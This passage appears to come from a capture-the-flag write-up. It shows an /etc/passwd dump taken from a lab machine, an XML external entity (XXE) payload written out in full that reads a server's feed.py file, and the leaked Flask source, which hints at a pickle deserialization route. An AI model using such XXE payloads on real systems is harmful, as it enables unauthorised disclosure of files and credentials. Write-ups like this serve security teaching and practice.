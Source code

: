 ```bash
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false 
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false 
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false 
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false 
syslog:x:104:108::/home/syslog:/bin/false 
_apt:x:105:65534::/nonexistent:/bin/false 
messagebus:x:106:110::/var/run/dbus:/bin/false 
uuidd:x:107:111::/run/uuidd:/bin/false 
lightdm:x:108:114:Light Display Manager:/var/lib/lightdm:/bin/false 
whoopsie:x:109:117::/nonexistent:/bin/false 
avahi-autoipd:x:110:119:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false 
avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false 
dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/bin/false 
colord:x:113:123:colord colour management daemon,,,:/var/lib/colord:/bin/false 
speech-dispatcher:x:114:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false 
hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false 
kernoops:x:116:65534:Kernel Oops Tracking Daemon,,,:/:/bin/false 
pulse:x:117:124:PulseAudio daemon,,,:/var/run/pulse:/bin/false 
rtkit:x:118:126:RealtimeKit,,,:/proc:/bin/false 
saned:x:119:127::/var/lib/saned:/bin/false 
usbmux:x:120:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false 
osboxes:x:1000:1000:osboxes.org,,,:/home/osboxes:/bin/false 
git:x:1001:1001:git,,,:/home/git:/bin/bash 
roosa:x:1002:1002:,,,:/home/roosa:/bin/bash 
sshd:x:121:65534::/var/run/sshd:/usr/sbin/nologin 
blogfeed:x:1003:1003:,,,:/home/blogfeed:/bin/false 
URL for later reference: /uploads/extract-etc-passwd.xml File path: /home/roosa/deploy/src
```

The main website mentioned `feed.py` and the upload directory is `/home/roosa/deploy/src`. I tried to simply concatenate the path and hoped for the best... 

```bash
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE foo[<!ENTITY xxe SYSTEM "file:///home/roosa/deploy/src/feed.py">]>
<root>
<Author>Foo</Author>
<Subject>FooSubject</Subject>
<Content>&xxe;</Content>
</root>	
```

Assuming that the file `feed.py` is in the same directory was correct and got me the following result: 

```bash
PROCESSED BLOGPOST: 
Author: Foo 
Subject: FooSubject Content: ') 
def uploaded_file(filename):
return send_from_directory(Config.UPLOAD_FOLDER, filename) 

@app.route("/") 
def xss(): 
	return template('index.html') 

@app.route("/feed") 
def fakefeed(): 
	return send_from_directory(".","devsolita-snapshot.png") 

@app.route("/newpost", methods=["POST"]) 
def newpost(): 
	# TODO: proper save to database, this is for testing purposes right now 
	picklestr = base64.urlsafe_b64decode(request.data) 
	# return picklestr 
```